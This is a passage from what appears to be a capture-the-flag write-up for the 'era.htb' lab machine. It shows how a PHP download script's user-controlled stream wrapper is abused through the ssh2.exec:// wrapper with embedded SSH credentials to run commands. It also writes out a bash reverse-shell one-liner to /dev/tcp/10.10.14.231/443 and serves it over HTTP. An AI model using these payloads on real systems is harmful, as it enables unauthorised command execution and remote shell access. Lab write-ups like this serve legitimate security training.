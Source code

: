 We can check php configuration `php8.1_conf` directory from ftp server. There we can see some `.so` files which are PHP extensions.
We can see that the `ssh2` extension is installed. This extension allows us to execute commands on a remote server using SSH.
```bash
ls php8.1_conf                
```
```
build        exif.so      gettext.so  pdo_sqlite.so  shmop.so      ssh2.so     tokenizer.so  xsl.so
calendar.so  ffi.so       iconv.so    phar.so        simplexml.so  sysvmsg.so  xmlreader.so  zip.so
ctype.so     fileinfo.so  opcache.so  posix.so       sockets.so    sysvsem.so  xml.so
dom.so       ftp.so       pdo.so      readline.so    sqlite3.so    sysvshm.so  xmlwriter.so
```


We find there is a vulnerability in the `download.php` file that allows us select the file wrapper to use when downloading files.
```php
// BETA (Currently only available to the admin) - Showcase file instead of downloading it
} elseif ($_GET['show'] === "true" && $_SESSION['erauser'] === 1) {
  $format = isset($_GET['format']) ? $_GET['format'] : '';
  $file = $fetched[0];

  if (strpos($format, '://') !== false) {
    $wrapper = $format;
    header('Content-Type: application/octet-stream');
  } else {
    $wrapper = '';
    header('Content-Type: text/html');
  }

  try {
    $file_content = fopen($wrapper ? $wrapper . $file : $file, 'r');
    $full_path = $wrapper ? $wrapper . $file : $file;
    // Debug Output
    echo "Opening: " . $full_path . "\n";
    echo $file_content;

  } catch (Exception $e) {
    echo "Error reading file: " . $e->getMessage();
  }
```

As we already have checked, the `ssh2` extension is installed. We can use the `ssh2.exec` wrapper to execute commands on the remote server.

We can use the following URL to execute a `<command>` on the remote server while logged in as the user `admin_ef01cab31aa` (which is the admin user):
```
http://file.era.htb/download.php?id=150&show=true&format=ssh2.exec://eric:america@127.0.0.1:22/<command>;
```

We set up a http server to serve a reverse shell payload:
```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.231/443 0>&1';" > shell.sh
python3 -m http.server 80
```
